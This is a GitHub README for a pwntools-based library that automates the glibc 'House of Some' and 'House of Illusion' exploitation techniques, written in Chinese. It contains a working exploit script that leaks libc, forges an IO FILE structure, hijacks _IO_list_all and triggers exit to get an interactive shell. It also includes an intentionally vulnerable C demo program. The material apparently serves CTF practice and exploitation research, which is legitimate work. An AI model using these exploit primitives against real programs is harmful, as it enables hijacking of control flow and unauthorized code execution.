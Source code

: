 # Some of House

[![Hits](https://hits.sh/github.com/CsomePro/Some-of-House.svg?label=Visitors&extraCount=-422)](https://hits.sh/github.com/CsomePro/Some-of-House/)

House实用小工具合集

## 目前已包含的House

House of Some: https://blog.csome.cc/p/house-of-some/

House of Illusion: https://enllus1on.github.io/2024/01/22/new-read-write-primitive-in-glibc-2-38/#more

## HouseOfSome x Illusion的自动化

在exit退出之后使用如下脚本即可

```python
from SomeofHouse import HouseOfSome
io = process("./demo")

...

libc = ELF("./libc.so.6", checksec=None)
libc.address = libc_base
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io)
```

- controled_addr：可写地址，作为延长的IO_list_all中的io file写入的起始地址

### 举个例子

```python
from pwn import *
from SomeofHouse import HouseOfSome

context.log_level = 'debug'
context.arch = 'amd64'

tob = lambda x: str(x).encode()
io = process("./demo")

io.recvuntil(b"[+] printf: ")
printf_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"printf_addr: {printf_addr:#x}")

def add(size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size> ", tob(size))
    
def write(addr, size, content):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"size> ", tob(size))
    io.sendlineafter(b"addr> ", tob(addr))
    io.sendafter(b"content> ", content)

def leave():
    io.sendlineafter(b"> ", b"3")

libc = ELF("./libc.so.6", checksec=None)
add(0x200)
io.recvuntil(b"[+] done ")
heap_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"heap_addr: {heap_addr:#x}")

libc_base = printf_addr - libc.symbols["printf"]
log.success(f"libc_base: {libc_base:#x}")

libc.address = libc_base
fake_file_start = heap_addr + 0xe0 + 0xe8
# 上方是信息收集
# ------------------------------------------------- # 
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
# 构造第一个任意地址写原语
payload = hos.hoi_read_file_template(fake_file_start, 0x400, fake_file_start, 0)
io.sendlineafter(b"content> ", payload)
write(libc.symbols["_IO_list_all"], 8, p64(heap_addr)) # 劫持_IO_list_all
leave() # exit

hos.bomb(io) # 一句话攻击

io.interactive()
```

demo.c源码

```python
#include<stdio.h>

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    int c;
    printf("[+] printf: %p\n", &printf);
    while (1) {
        printf(
            "1. add heap.\n"
            "2. write libc.\n"
            "3. exit\n"
            "> "
        );
        scanf("%d", &c);
        if(c == 1) {
            int size;
            printf("size> ");
            scanf("%d", &size);
            char *p = malloc(size);
            printf("[+] done %p\n", p);
            printf("content> ");
            read(0, p, size);
        } else if(c == 2){
            size_t addr, size;
            printf("size> ");
            scanf("%lld", &size);
            printf("addr> ");
            scanf("%lld", &addr);
            printf("content> ");
            read(0, (char*)addr, size);
        } else {
            break;   
        }
        
    }
    
}
```

## Contributors

<a href="https://github.com/CsomePro/Some-of-House/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=CsomePro/Some-of-House" />
</a>

## Stars
[![Stargazers over time](https://starchart.cc/CsomePro/Some-of-House.svg?variant=adaptive)](https://starchart.cc/CsomePro/Some-of-House)





